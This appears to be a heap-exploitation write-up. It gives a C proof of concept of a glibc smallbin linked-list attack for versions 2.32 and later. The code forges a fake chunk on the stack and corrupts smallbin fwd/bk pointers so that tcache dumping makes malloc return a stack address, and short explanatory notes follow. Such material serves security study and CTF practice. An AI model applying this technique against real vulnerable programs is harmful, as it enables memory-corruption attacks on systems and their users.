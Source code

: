 <details>
<summary><strong>Description</strong></summary>
<p>

similar to the unsorted, and large bin linked list primitive **but better**...

we will be trying to get malloc to allocate a ptr on the stack. This will be done via leveraging the smallbin linked list...

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *tcache_chunks[7], x[0x30], *reallocate_chunk, *target;

    // target must be aligned 0x10 (explain later)
    for(int i = 0x10; i < 0x20; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }
    printf("target: %p\n", target);

    // allocate chunk (must be in smallbin range in order to work)
    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300);
    chunk0 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk1 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation

    for(int i = 0; i < 7; i++) free(tcache_chunks[i]); // fill up the corresponding tcache

    free(chunk0); // insert our two (soon to be small bin) chunks into the unsorted bin
    free(chunk1);

    malloc(0x300 + 0x10); // move the two unsorted bin chunks over to the small bin

    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300); // empty the corresponding tcache bin

    // make our "fake" small bin chunk
    // for this, we only need to set the `prev_size` (setting it to `0x00`), and the chunk_size
    target[0] = 0x0000000000000000; // 
    target[1] = 0x0000000000000311;

    // Then we go ahead, and link this chunk against the two real small bin chunks
    target[2] = ((long)chunk0 - 0x10); // fwd
    target[3] = ((long)chunk1 - 0x10); // bk

    /* now in other writeups here where we do similar things with the unsorted bin / large bin
    you will see us have to make a chunk header right after this chunk because of the 'unlink_chunk' function
    we don't have to worry about that here */

    // link the two real small bin chunks against our fake small bin chunk
    /*VULNERABILITY*/
    chunk0[1] = target; // chunk0 bk
    chunk1[0] = target; // chunk1 fwd
    /*VULNERABILITY*/
    // [smallbin 0x310]: chunk1 -> target -> chunk0

    malloc(0x300); // reallocate chunk0 from small bin, trigger smallbin dumping
    // [tcache 0x310]: chunk1 -> target

    malloc(0x300); // reallocate chunk1 from tcache

    reallocate_chunk = malloc(0x300); // allocate our fake chunk from tcache

    printf("reallocate_chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

this will be similar to the unsorted, and large bin linked list writeups. We will make a fake chunk where we want to allocate, assign it a prev_size, chunk_size, and fwd/bk pointer. We will also overwrite the fwd/bk pointers of the chunks we are linking against, to point to this chunk (either the fwd/bk of each).

this differs fron the unsorted/large bin, in two ways. First off, due to the overlap of the tcache bin sizes, whenever we free a chunk that is to be inserted into the small bin, the corresponding tcache must be full. In addition to that, when we want to allocate a small bin chunk, the corresponding tcache bin must be empty.

the second way is beneficial to us. With the unsorted, and large bins, the chunk being allocated has a check (sometimes executed in the unlink_chunk function). That check is basically, is the prev_size of the next chunk, equal to the size of the current chunk? Of course for making a fake chunk, this could prove a bit hard to pull off. **We don't have to worry about that with the small bin**.

</p>
</details>

<details>
<summary><strong>Comment</strong></summary>
<p>

the smallbin itself doesnt have address aligned 0x10 check, but in higher glibc version (`2.31+`), we need to prepare fake chunk size and aligned address to prevent error when the smallbin tcache dumping occur...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> you can modify above poc without the target address aligned 0x10 restriction...

</p>
</details>